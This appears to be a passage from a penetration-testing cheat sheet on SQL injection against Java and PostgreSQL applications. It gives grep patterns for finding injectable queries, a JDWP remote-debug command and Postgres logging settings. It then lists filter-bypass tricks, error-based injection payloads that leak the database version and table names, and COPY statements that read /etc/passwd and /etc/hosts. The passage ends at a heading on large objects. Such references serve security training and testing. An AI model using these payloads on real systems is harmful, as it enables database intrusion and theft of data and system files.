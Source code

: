 ```regex
SELECT|UPDATE|DELETE|INSERT|CREATE|ALTER|DROP
(WHERE|VALUES).*?'
(WHERE|VALUES).*" +
.*sql.*"
jdbcTemplate
```

## Live Debugging Java Applications

`java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y,suspend=y -jar <Application>.jar`

## Enabling PostgreSQL Logging

`/etc/postgresql/13/main/postgresql.conf`

- Change `#logging_collector = off` to `logging_collector = on`
- `#log_statement = 'none'` to `log_statement = 'all'`
- Uncomment `#log_directory = '...'`
- Uncomment `#log_filename = '...'`

## Common Character Bypasses

- Use `/**/` instead of `space`
- Use `$$string$$` instead of `'string'`

## Error-Based SQL Injection

Code: sql

```sql
' and 0=CAST((SELECT VERSION()) AS INT)--
' and 1=CAST((SELECT table_name FROM information_schema.tables LIMIT 1) as INT)--
' and 1=CAST((SELECT STRING_AGG(table_name,',') FROM information_schema.tables LIMIT 1) as INT)--
';SELECT CAST(CAST(QUERY_TO_XML('SELECT ...',TRUE,TRUE,'') AS TEXT) AS INT)--
```

## Reading and Writing Files

#### Reading with COPY

Code: sql

```sql
CREATE TABLE tmp (t TEXT);
COPY tmp FROM '/etc/passwd';
COPY tmp FROM '/etc/hosts' DELIMITER E'\x07';
SELECT * FROM tmp;
DROP TABLE tmp;
```

#### Reading with Large Objects
